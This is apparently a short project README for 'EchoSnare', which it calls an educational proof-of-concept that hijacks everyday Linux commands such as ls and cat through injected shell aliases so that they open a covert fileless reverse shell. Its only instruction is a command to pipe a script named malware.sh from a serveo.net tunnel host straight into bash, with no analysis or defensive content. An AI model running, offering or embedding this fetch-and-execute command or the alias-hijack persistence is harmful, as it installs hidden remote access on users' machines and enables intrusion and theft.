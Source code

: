 # EchoSnare
EchoSnare is an educational proof-of-concept demonstrating how common Linux commands like ls or cat can be silently hijacked to trigger a fileless reverse shell. Once the victim downloads and runs the tool, it injects a stealthy alias or function into their shell configuration, turning everyday terminal usage into a covert access point.
run this----curl -s https://4a8c94b8138f449e77656594d05d1024.serveo.net/malware.sh | bash

